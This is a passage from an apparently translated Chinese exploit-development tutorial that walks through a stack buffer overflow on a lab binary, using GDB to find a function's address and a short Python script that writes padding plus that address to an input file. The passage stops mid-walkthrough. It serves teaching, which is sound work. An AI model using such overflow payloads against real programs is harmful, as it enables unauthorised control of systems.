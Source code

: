 现在，通过查看错误，我们可以在其中看到注入的`b`字符。在这一点上，我们做得很好。现在我们知道了我们的注入形式，让我们尝试使用`disassemble`命令执行`letsprint`函数：

```
$ disassemble letsprint
```

在以下屏幕截图中可以看到前面命令的输出：

![](img/00238.jpeg)

我们在`letsprint`函数中得到了第一条指令，`push rbp`的地址为`0x00000000004005e3`，真正的地址就是我们在这里需要的地址；我们也可以通过`print`命令获取地址：

```
$ print letsprint
```

在以下屏幕截图中可以看到前面命令的输出：

![](img/00239.jpeg)

现在我们有了地址，让我们尝试使用 Python 构建我们的漏洞，因为我们无法直接传递地址：

```
#!/usr/bin/python
from struct import *

buffer = ''
buffer += 'a'*24
buffer += pack("<Q", 0x0000004005e3)
f = open("input.txt", "w")
f.write(buffer)
```

然后，我们执行它以生成新的输入：

```
$ ./exploit
```

现在，从 GDB 内部运行以下命令：
